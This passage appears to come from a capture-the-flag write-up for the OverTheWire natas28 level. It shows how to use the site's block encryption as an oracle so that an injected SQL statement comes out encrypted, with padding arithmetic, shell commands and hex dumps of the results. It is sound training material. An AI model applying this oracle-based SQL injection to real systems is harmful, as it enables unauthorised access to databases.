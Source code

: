 Since the goal is to send our own crafted SQL statement that&#8217;s encrypted with this system, we don&#8217;t have to figure out the encryption itself, we can simply use it as an oracle that gives us exactly what we want&#8230;

What that means is we send our SQL as the input string we want to encrypt in such a way that it is put into the output starting at offset 30h (0x00000030). Then extract those bytes and that&#8217;s the encrypted version of our SQL statement, and we can post it to &#8220;search.php&#8221;.

From the earlier observations taken of input lengths, we can deduce that our target 0x30 block begins with the 11th input character. In other words, the first ten characters sent to the oracle don&#8217;t matter. But we need to make sure our input stays within our known window where the blocks are predictable, so we can cleanly extract what we want. One way to do that would be to fill in the remainder of the last block with dummy chars.

Like this&#8230; suppose the input is &#8220;000000000011111111111111111111111111111111&#8221;, which is made by the command <span class="lang:python decode:true crayon-inline">python -c &#8220;print(&#8216;0&#8217;*10 + &#8216;1&#8217;*16*2)&#8221;</span> . This gives us the first 10 useless chars as &#8220;0&#8221; and 32 payload chars as &#8220;1&#8221;, which results in 2 useful oracle blocks:

<pre class="lang:zsh highlight:0 decode:true">root@kali:~# natas28 000000000011111111111111111111111111111111
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100   992  100   944  100    48    410     20  0:00:02  0:00:02 --:--:--   431
G%2BglEae6W%2F1XjA7vRm21nNyEco%2Fc%2BJ2TdR0Qp8dcjPK9k3v%2Boj9xyHjD7FjiGWNblErm4xsGCG%2FAhMG0n91NUJRK5uMbBghvwITBtJ%2FdTVBzil%2F7SkUAJGd1F1rllrvW803zOcae3OEfZlC7ztYnAg%3D%3D
base64: invalid input
00000000: 1be8 2511 a7ba 5bfd 578c 0eef 466d b59c  ..%...[.W...Fm..
00000010: dc84 728f dcf8 9d93 751d 10a7 c75c 8cf2  ..r.....u....\..
00000020: bd93 7bfe a23f 71c8 78c3 ec58 e219 635b  ..{..?q.x..X..c[
00000030: 944a e6e3 1b06 086f c084 c1b4 9fdd 4d50  .J.....o......MP
00000040: 944a e6e3 1b06 086f c084 c1b4 9fdd 4d50  .J.....o......MP
00000050: 738a 5ffb 4a45 0024 6775 175a e596 bbd6  s._.JE.$gu.Z....
00000060: f34d f339 c69e dce1 1f66 50bb ced6 2702  .M.9.....fP...'.
</pre>

Here&#8217;s a visualization of a SQL statement we could send and its relation to the oracle window (the &#8220;+&#8221; being a space in URL encoding):

<pre class="lang:zsh highlight:0 decode:true">000000000011111111111111111111111111111111
..........SELECT+*+FROM+jokes+++++++++++++</pre>

This is what we have back:

<pre class="lang:zsh decode:true">root@kali:~/otw/natas# echo "..........SELECT * FROM jokes             " | urlencode | natas28
Sending: ..........SELECT%20%2A%20FROM%20jokes%20%20%20%20%20%20%20%20%20%20%20%20%20
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100  1026  100   944  100    82    412     35  0:00:02  0:00:02 --:--:--   448
G%2BglEae6W%2F1XjA7vRm21nNyEco%2Fc%2BJ2TdR0Qp8dcjPKOGw9HPNy3SNDiT1Atyyb%2B6vUN12jxQYxd3lxf09PAjHs53rpC0ckH975k1JsPIfZzil%2F7SkUAJGd1F1rllrvW803zOcae3OEfZlC7ztYnAg%3D%3D
base64: invalid input
00000000: 1be8 2511 a7ba 5bfd 578c 0eef 466d b59c  ..%...[.W...Fm..
00000010: dc84 728f dcf8 9d93 751d 10a7 c75c 8cf2  ..r.....u....\..
00000020: 8e1b 0f47 3cdc b748 d0e2 4f50 2dcb 26fe  ...G&lt;..H..OP-.&.
00000030: eaf5 0dd7 68f1 418c 5dde 5c5f d3d3 c08c  ....h.A.].\_....
00000040: 7b39 deba 42d1 c907 f7be 64d4 9b0f 21f6  {9..B.....d...!.
00000050: 738a 5ffb 4a45 0024 6775 175a e596 bbd6  s._.JE.$gu.Z....
00000060: f34d f339 c69e dce1 1f66 50bb ced6 2702  .M.9.....fP...'.</pre>
